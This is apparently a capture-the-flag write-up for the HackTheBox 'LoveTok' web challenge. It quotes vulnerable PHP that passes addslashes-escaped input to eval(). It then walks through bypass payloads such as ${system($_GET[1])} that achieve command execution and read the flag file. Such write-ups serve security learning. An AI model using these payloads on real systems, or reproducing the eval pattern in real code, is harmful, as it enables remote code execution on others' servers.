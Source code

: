 # HackTheBox LoveTok
When booting up the challenge, we find the following homepage:
![LoveTok](/web/HTB_LoveTok/images/lovetok.PNG)
This page features a countdown to a random date, and a button to roll a new random date. Clicking the button sets a new date with a GET request with the parameter `format=r`. This is our first hint that we can somehow influence a `date()` command. In this challenge we are also provided the source code. There is not much interesting code, except the `TimeModel` class which uses `eval()` to execute `date()` based on the provided `format` parameter:
```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
This kind of code with `eval()` screams command injection. I started off by trying some common command injection techniques, but this did not immediately work. Taking a second look at the code explains why; `addslashes()` is used to escape the input string. We can take a look at the [addslashes() docs](https://www.php.net/manual/en/function.addslashes.php), which reveals this is an escaping function. However, it also reveals that it is not safe for preventing i.e. SQL injection. 

At this point, it is clear that the goal of the challenge is to bypass the `addslashes()` and achieve command injection. Googling for "php addslashes exploit" results in some pages on SQL injection, and a page about [addslashes() in eval safety](https://security.stackexchange.com/questions/263114/php-is-addslashes-in-eval-really-that-unsafe). This post also links to an article titled "[Using complex variables to bypass the addlashes function to achieve RCE](https://www.programmersought.com/article/30723400042/)". These posts explain that the characters $, {, }, ( and ) are not escaped, which allows injecting of inline commands. This means you can still use commands inside of the string context with a payload such as:
```
${phpinfo()}
```
However, the problem still persists when we want to execute commands such as (the `+` is a space as this is passed as GET parameter in the URL):
```
${system("ls+../")}
```
The above payload will not work, as the double quotes are still escaped by `addslashes()`. Some commands such as `id` can still be executed by leaving out the quotes, but commands containing spaces do not work without the double quotes. Luckily, the first post we found about [addslashes() in eval safety](https://security.stackexchange.com/questions/263114/php-is-addslashes-in-eval-really-that-unsafe) also highlights a way to bypass this issue. As payload we can use `${eval($_GET[1])}`, which will fetch the command from the GET parameter `1`. This can be used to execute commands as follows:
```
/?format=${eval($_GET[1])}&1=system("id");
```
This now successfully prints the result of `id` on the page!
![LoveTokExp](/web/HTB_LoveTok/images/lovetokexploited.PNG)
The payload can be cleaned up further, as the nesting of `eval()` and `system()` is not needed: 
```
/?format=${system($_GET[1])}&1=id
```
This can now be used to fetch the flag from the randomly generated flag name as follows:
```
/?format=${system($_GET[1])}&1=cat+/flag*
```

